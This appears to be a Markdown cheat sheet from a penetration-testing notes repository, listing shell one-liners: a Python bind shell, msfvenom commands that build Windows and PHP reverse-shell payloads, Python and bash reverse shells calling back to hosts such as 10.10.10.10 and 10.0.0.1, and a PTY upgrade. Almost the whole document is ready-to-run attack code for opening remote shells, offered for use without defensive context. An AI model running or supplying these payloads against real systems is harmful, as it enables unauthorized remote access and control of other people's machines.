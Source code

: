 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/shells.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/shells.md#upgrade-to-a-pty-shell">Bottom of Page</a>
</p>

# Cheatsheets - Shells
## Table of Contents
* [Bind Shells](#bind-shells)
  * [Python](#python-bind-shell)
* [Reverse Shells](#reverse-shells)
  * [Msfvenom](#msfvenom-reverse-shells)
  * [Python](#python-reverse-shells) 
  * [BASH](#bash-reverse-shells) 
* [Upgrade to a PTY Shell](#upgrade-to-a-pty-shell)
  * [Python PTY Shell](#python-pty-shell) 

## Bind Shells
#### Python Bind Shell
```python
python -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",443));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

## Reverse Shells
#### Msfvenom Reverse Shells
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o shell.exe
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f asp -o shell.asp
msfvenom -p php/reverse_php LHOST=$LHOST LPORT=$LPORT -f raw -o shell.php
```

#### Python Reverse Shells
```python
export RHOST="10.10.10.10"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

#### Bash Reverse Shells
```bash
bash -i >& /dev/tcp/10.0.0.1/443 0>&1
```

## Upgrade to a PTY Shell
#### Python PTY Shell
```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py
python /tmp/shell.py
```
